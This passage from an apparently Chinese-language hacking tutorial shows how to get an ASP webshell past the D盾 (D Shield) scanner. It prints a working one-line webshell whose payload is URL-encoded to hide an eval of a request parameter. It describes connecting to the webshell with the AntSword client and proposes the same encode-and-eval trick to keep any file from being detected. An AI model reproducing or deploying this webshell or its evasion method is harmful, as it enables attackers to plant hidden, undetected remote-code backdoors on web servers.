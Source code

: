 扫一下，发现四级

提示eval参数xxxx

![img](https://cdn.nlark.com/yuque/0/2021/png/1599908/1623900426447-5ab2d424-cdbc-4d52-bebc-9dbd65762e6e.png)

那么我们定义个函数传进去呢

发现已经降到了一级

![img](https://cdn.nlark.com/yuque/0/2021/png/1599908/1623900426618-ffe2f982-67f9-435f-8d92-12cfca68d245.png)

但是我们的目标是做到0级

继续分析一下查杀的原因是`参数test(xxxx)`

随便改一下参数内容试一下

![img](https://cdn.nlark.com/yuque/0/2021/png/1599908/1623900426738-9f184ef1-554f-49e2-becf-19f413e98a61.png)

当我们传入123456时还是报一级，说明这时D盾查杀的只是调用，而跟你传什么东西没有关系

把参数删掉试试

![img](https://cdn.nlark.com/yuque/0/2021/png/1599908/1623900426851-66334884-40d3-4712-accc-771fa27101ea.png)

此时D盾就不再提示了

所以我们只需要构造一个无参数函数即可

```
<%
Function test():
    dim aaa
    aaa="%65%76%61%6c%28%72%65%71%75%65%73%74%28%22%6d%72%36%22%29%29"
	test = unescape(aaa)
End Function
eval(test())
%>
```

成功bypass D盾

![img](https://cdn.nlark.com/yuque/0/2021/png/1599908/1623900427004-4b327513-1e77-4bc5-bdc7-eb508f3b1074.png)

使用蚁剑成功连接

![img](https://cdn.nlark.com/yuque/0/2021/png/1599908/1623900427136-36fcb5af-d673-4879-bfe2-1a5c6f2f7e8d.png)

原理都是一样的，一个函数被杀了就换一个函数

## 反思拓展

既然我们可以把任意的payload编码一下然后eval，那么我们是否可以用同样的办法实现对任意文件免杀？

答案当然是可以的

但是我们前提是要说明一点区别
